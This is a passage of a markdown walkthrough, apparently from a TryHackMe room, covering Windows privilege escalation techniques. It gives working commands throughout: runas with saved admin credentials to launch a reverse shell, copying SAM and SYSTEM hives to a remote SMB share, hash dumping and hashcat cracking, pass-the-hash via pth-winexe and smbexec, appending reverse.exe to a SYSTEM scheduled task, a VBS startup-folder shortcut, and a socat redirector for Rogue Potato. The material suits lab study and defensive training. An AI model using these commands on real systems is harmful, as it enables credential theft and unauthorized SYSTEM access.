     > #### _**`Note that credentials for the "admin" user are saved. If they aren't, run the`**_
     > ```ruby
     > C:\PrivEsc\savecred.bat script
     > ```
     > to refresh the saved credentials.
     
     > ## ``savecred.bat`` → A script on the lap that forces the system to store the credential (usually owned by the admin).
     > Objective: Make sure that the credential is registered so that we can exploit it.
     
          
     </details>
     
     
     ## 2. run payload using saved credential
     
     ```ruby
     runas /savecred /user:admin C:\PrivEsc\reverse.exe
     ```
     
     - **`runas`** : Tool to run programs as different user
     - **`/savecred`** : It means use the credential stored in the system instead of asking you to enter the password.
     - **`/user:admin`** : Specify that you want to run the program as a user named admin.
     - **`C:\PrivEsc\reverse.exe`** : This is your payload (reverse shell).
     
     
     > ---
     > ### 📌 _Goal → Run reverse.exe with admin privileges without entering the password yourself → take a shell with higher privileges._
     > ---
     
     
     ## 3. open listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     
     <img width="1265" height="315" alt="image" src="https://github.com/user-attachments/assets/f1595237-ce9c-4b71-baa1-383a14ee2106" />
     
     



  </details>









- <details>
     <summary>Security Account Manager (SAM)</summary>

     > ``The idea of ​​exploitation``
     > Windows stores user password hashes in a file called ``SAM`` (Security Account Manager).
     > But the SAM is encrypted, and the key to decrypt it is stored in the ``SYSTEM`` file.
     
     
     > ---
     > ### 📌 _The idea → If you find a backup copy of these files (such as ``C:\Windows\Repair\``), you can copy them and break the passwords._
     > ---
     
     
     ## 1. Transfer SAM and SYSTEM files to Kali
     
     ```ruby
     copy C:\Windows\Repair\SAM \\10.8.47.102\kali\
     copy C:\Windows\Repair\SYSTEM \\10.8.47.102\kali\
     ```
     
     <img width="1247" height="371" alt="image" src="https://github.com/user-attachments/assets/9312c3bf-1ef6-413d-94ba-b0a3dc5dda61" />
     
     
     
     
     > ---
     > ### 📌 _Goal → We take the hashes files and bring them to us so that we can work on them at our convenience._
     > ---
     
     
     ## 2. Download ``creddump7`` Tool
     
     
     ```ruby
     git clone https://github.com/Tib3rius/creddump7
     
     sudo mv creddump7 /opt/
     sudo ln -s /opt/creddump7/pwdump.py /usr/local/bin/pwdump
     ```
     
     > Install the encryption library
     
     ```python
     pip3 install pycrypto
     ```
     
     - **`pip3`** : Python3 package manager.
     - **`install pycrypto`** : We install the `PyCrypto library`so that the tool can extract hashes form files.
     
     
     ## 3. Extracting hashes from files
     
     
     ```ruby
     pwdump SYSTEM SAM
     ```
     
     <img width="883" height="224" alt="image" src="https://github.com/user-attachments/assets/d6c3d6c5-1652-4ed7-b50a-a351130eee05" />
     
     ```ruby
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
     user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
     admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
     ```
     
     
     >  ```
     >  Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     >  ```
     
     - **`Administrator`** : username
     - **`500`** : The user's RID (Relative Identifier). 500 usually remains the primary Administrator.
     - **`aad3b435b51404eeaad3b435b51404ee`** : LM hash (if not used, this is the default placeholder).
     - **`fc525c9683e8fe067095ba2ddc971889`** : NT hash (which we can use to crack the password or pass-the-hash).
     - **`:::`** : Additional fields are not important to us now.
     
     
     
     ## 4. Crack the hash using Hashcat
     
     
     ```ruby
     hashcat -m 1000 -a 0 fc525c9683e8fe067095ba2ddc971889 /usr/share/wordlists/rockyou.txt
     ```
     
     - **`hashcat`** : A powerful tool for cracking passwords.
     - **`-m 1000`** : It means the hash is of type NTLM.
     
     <img width="672" height="166" alt="image" src="https://github.com/user-attachments/assets/05e7ca96-024b-4d9d-91c0-3010dcc1bd54" />
     
     
     
     
     ## 5. Exploiting the password after it is broken
     
     
     ```ruby
     winexe -U 'admin%<password>' //10.10.10.10 cmd.exe
     
     Or
     
     rdesktop -u admin -p <password> 10.10.10.10
     ```
     
     
     
     <img width="681" height="378" alt="image" src="https://github.com/user-attachments/assets/b422fc9e-d7f2-4542-bc24-59d137851956" />
     
     
     


  </details>









- <details>
     <summary> Passing the Hash</summary>
     
     > ---
     > ### 📌 _The idea → Usually in attacks on Windows, when you have a hash instead of cracking the password, you can use a technique called Pass-the-Hash (PTH).
     > Idea: The hash is used directly for authentication instead of the actual password.
     
     > Why is this useful?
     
     > - Save time (you don't need to break the password).
     
     > - Some systems may prevent brute-force, but not the use of hash for authentication._
     > ---
     
     
     ```ruby
     pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.148.63 cmd.exe
     ```
     
     or 
     
     ```ruby
     python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da admin@10.10.148.63
     ```
     
     
     <img width="1090" height="261" alt="image" src="https://github.com/user-attachments/assets/d017160b-c081-4946-a00b-5ac68d94c122" />
     
     
     <img width="1099" height="245" alt="image" src="https://github.com/user-attachments/assets/004a30ec-a449-4e55-b8a4-b7bb52ccbe7d" />
     
     
     > `smbexec.py` uses the creation service on Windows to run the shell.
     
     > Any service that runs on Windows usually runs under `SYSTEM` privileges.
     
     > This means that even if the user you specified is admin, the `shell` that will open will be `SYSTEM` because it is the service on Windows that is running.
     
     > This is a great advantage because it gives you the highest powers over the system.
     
     
     
     | tool                  | Privileges         | method                                             |
     | --------------------- | ------------------ | -------------------------------------------------- |
     | `impacket smbexec.py` | SYSTEM             | You create a service and run a shell inside it     |
     | `pth-winexe`          | Admin              | Regular logon and shell execution in user session  |
     
     
     


  </details>








     
</details>






















<details>
  <summary>Scheduled Tasks</summary>

- <details>
     <summary>Tip</summary>
     
     > ### here we are in room from THM and we know that the Scheduled task is **`C:\DevTools\CleanUp.ps1`**
     > but in real world how to know ??
     
     
     > - ### **`To view all Scheduled Tasks in system`**
     
     ## **`CMD`**
     
     ```ruby
     schtasks /query /fo LIST /v
     ```
     
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Format-List *
     ```
     
     ## **`GUI`**
     
     ```ruby
     taskschd.msc
     ```
     
     -----
     
     > - ### **`To view all Scheduled Tasks that work as SYSTEM`**
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"} | Format-List *
     ```
     
     ---
     
     > ## Where tasks files are stored in?
     
     ```ruby
     C:\Windows\System32\Tasks
     ```
     
     
     

  </details>



## 1. View the content of the PowerShell script

```ruby
type C:\DevTools\CleanUp.ps1
```

- **`type`** : A Windows command that displays the contents of any text file.
- **`C:\DevTools\CleanUp.ps1`** : This is a PowerShell Script file.

> Purpose: To understand what the script is doing (it may be deleting logs or cleaning folders).


<img width="679" height="143" alt="image" src="https://github.com/user-attachments/assets/b94aed7f-ff74-4470-947c-f485eadd8d7b" />



> ---
> ### 📌 _NOte → "The script seems to be running as SYSTEM every minute"_
> ---


## 2. Check file permissions


```ruby
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

<img width="661" height="322" alt="image" src="https://github.com/user-attachments/assets/9e3654bc-90c7-49d9-97ea-e27c22e1125f" />



> ---
> ### 📌 _Goal → Make sure that we can write (Write/Modify) to this script._
> ---

## 3. Adding a malicious line to the script

```ruby
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```


> ---
> ### 📌 _Goal → o make the script run every time your program, reverse.exe, runs with it._
> ---

## 4. Open Listener on kali


```ruby
nc -nvlp 4444
```


<img width="1394" height="262" alt="image" src="https://github.com/user-attachments/assets/6061925d-c493-49c9-87e9-9d460e8f70e5" />





     
</details>













<details>
  <summary>Insecure GUI Apps</summary>

> ---
> ### After you enter RDP, you will find a shortcut named “AdminPaint” on your desktop.

> When you step on it, it launches the Paint program (mspaint.exe), but it is not normal → it starts using Administrator's Privileges.

> This means that you have a GUI (Paint) program running with higher privileges than you.
> 
> ---


## 1. Check privileges “AdminPaint” work with it 

```ruby
tasklist /V | findstr mspaint.exe
```

- **`tasklist /v`** : It displays all running processes in detail (PID, program name, which user runs it).
- **`| findstr mspaint.exe`** : Filter the results to only answer the Paint line.



<img width="952" height="183" alt="image" src="https://github.com/user-attachments/assets/1f204b37-f268-4150-a7af-762d781a5ebf" />


## 2. Exploiting the Open Dialog

- Open Paint → from the menu press File → Open.

- You will receive a Dialog Box for opening files.

- Now, instead of writing an image name, you will write in the navigation bar:


```ruby
file://c:/windows/system32/cmd.exe
```

<img width="435" height="131" alt="image" src="https://github.com/user-attachments/assets/98034852-152b-4282-aa77-cffec62130bc" />

- click ``enter`` not **`open`** button

<img width="1023" height="601" alt="image" src="https://github.com/user-attachments/assets/1edb72c0-99e9-4b39-aa86-cfa71ebeff91" />

     
</details>












<details>
  <summary>Startup Apps</summary>



## 1. Check Startup directory permissions

```ruby
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

- **`-d`** : It means “Directory permissions” shows you who can read/write/delete in the folder.



<img width="957" height="253" alt="image" src="https://github.com/user-attachments/assets/9db41fcc-2890-467c-80a8-94c3765d1967" />



> ---
> ### 📌 _Goal → If you find that the Users group has Write permission here, then any normal user can upload a file/Shortcut that will be executed automatically with any user (even the admin) running → Privilege Escalation._
> ---


## 2. Run vbs Script

```ruby
cscript C:\PrivEsc\CreateShortcut.vbs
```

- **`cscript`** : This is the command-line host for running VBScript (.vbs) files.
- **`C:\PrivEsc\CreateShortcut.vbs`** : the script that we want to run it


> this file when it run it make shortcut to **`C:\PrivEsc\reverse.exe`** and put it on **`startup`** directory


<img width="527" height="108" alt="image" src="https://github.com/user-attachments/assets/57ce227b-f089-452b-b60f-292215f39d91" />


> ---
> ### 📌 _Goal → Instead of writing a shortcut manually, the script creates it automatically and places it in the correct place._
> ---



## 3. simulate an admin logon using RDP

```ruby
rdesktop -u admin 10.10.122.63
```

> here you login as admin just to simulate the attack, in real world the user who login shortcut will work you will take shell with it's privileges


<img width="1525" height="796" alt="image" src="https://github.com/user-attachments/assets/0269105a-d525-451e-be67-f1c2d4fd4b1b" />


## 4. open Listener on kali


```ruby
nc -lnvp 4444
```


<img width="1654" height="761" alt="image" src="https://github.com/user-attachments/assets/4f61d07d-c8d5-42b0-8343-8be29aef3acc" />





- <details>
     <summary>Notes</summary>

     > ## content of vbs file
     
     ```ruby
     Set oWS = WScript.CreateObject("WScript.Shell")
     sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk"
     Set oLink = oWS.CreateShortcut(sLinkFile)
     oLink.TargetPath = "C:\PrivEsc\reverse.exe"
     oLink.Save
     ```
     
     - **`sLinkFile`** : The location of the shortcut file that will be used (.lnk).
     - **`oLink.TargetPath`** : Here is the PrivEsc at `C:\PrivEsc\reverse.exe`.
     - **`oLink.Save`** : save shortcut
     
     ---
     
     > ## how to know what this shortcut refer to
     
     `right Click` → `properties` → `Shortcut`
     
     - you will see **`Target`** content is `C:\PrivEsc\reverse.exe` 
     
     **`or`**
     
     ```ruby
     (Get-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk").TargetPath
     ```
     
     ---
     
     > ## how to make shortcut manually
     
     **`Powershell`**
     
     ```ruby
     $WshShell = New-Object -ComObject WScript.Shell
     $Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\malicious.lnk")
     $Shortcut.TargetPath = "C:\PrivEsc\reverse.exe"
     $Shortcut.Save()
     ```
     
     `Or`
     
     #### Open `Explorer` write
     
     ```ruby
     shell:startup
     ```
     
     `then`
     
     **`Right Clicl`** → **`New`** → **`Shortcut`**
     
     
     <img width="516" height="101" alt="image" src="https://github.com/user-attachments/assets/b62611a6-1cd4-4624-841c-b3c5e2ae9082" />
     




  </details>






     
</details>
























<details>
  <summary>Token Impersonation</summary>





- <details>
      <summary>Rogue Potato</summary>


## 1. Run socat redirector on Kali


```ruby
sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
```

- **`socat`** : A program that allows us to create a redirect or proxy for communication between two sockets (TCP/UDP).
- **`tcp-listen:135`** : Listen on port 135 in Kali.
   - `135` : is the RPC Endpoint Mapper port that Windows uses.
- **`reuseaddr`** : It allows port reuse even if sessions are open.
- **`fork`** : A fork is used for each new connection (meaning it can serve more than one connection).
- **`tcp:MACHINE_IP:9999`** : Any connection that comes to Kali:135, send it to the Windows victim on port 9999.






> ---
> ### 📌 _Goal → We make a redirect to port 135 used by the exploit (RoguePotato), so that instead of going to Windows itself, it goes to Kali and from there we return it again._
> ---



  </details>


- <details>
      <summary>PrintSpoofer</summary>
  </details>





     
</details>

<details>
  <summary>Privilege Escalation Scripts</summary>
</details>





